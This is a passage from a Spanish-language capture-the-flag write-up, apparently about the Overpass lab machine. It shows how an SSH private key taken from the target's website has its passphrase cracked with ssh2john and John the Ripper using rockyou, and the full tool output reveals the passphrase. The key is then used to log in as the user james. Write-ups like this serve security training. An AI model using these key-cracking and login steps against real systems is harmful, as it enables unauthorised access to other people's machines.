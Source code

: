Tenemos una llave, por lo tanto la copiamos y guardamos en nuestra máquina como `id_rsa` para poder acceder vía ssh. Si lo intentamos, vemos que nos pedirá contraseña, por lo tanto, debemos obtener el hash y tratar de crackearla.

```bash
❯ python3 ssh2john.py id_rsa > hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:05 DONE (2023-06-23 20:27) 0.1848g/s 2650Kp/s 2650Kc/s 2650KC/s  0125457423 ..*7¡Vamos!
Session completed
```

Ya tenemos la contraseña, por lo que tratamos de acceder vía ssh como el usuario **james** (se observa en el sitio web donde está la llave) :

```bash
❯ chmod 600 id_rsa
❯ ssh james@10.10.65.144 -i id_rsa
The authenticity of host '10.10.65.144 (10.10.65.144)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.144' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun 24 02:29:05 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.65.144
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
james@overpass-prod:~$
```
